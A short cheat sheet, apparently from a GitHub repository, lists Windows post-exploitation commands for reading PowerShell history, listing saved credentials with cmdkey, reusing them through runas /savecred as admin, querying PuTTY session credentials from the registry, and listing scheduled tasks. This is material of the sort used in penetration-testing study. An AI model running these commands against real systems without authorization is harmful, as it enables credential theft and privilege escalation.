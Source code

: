 Powershell History
Tool: cmd ( admin )
> %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

Saved Windows Credentials
Tool: cmd ( admin )
> cmdkey /list

![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

Try the user login
Tool: cmd ( admin )
> runas /savecred /user:admin cmd.exe

![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)
![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)


Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)
![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)




Scheduled Tasks
Tool: cmd ( admin )
> schtasks
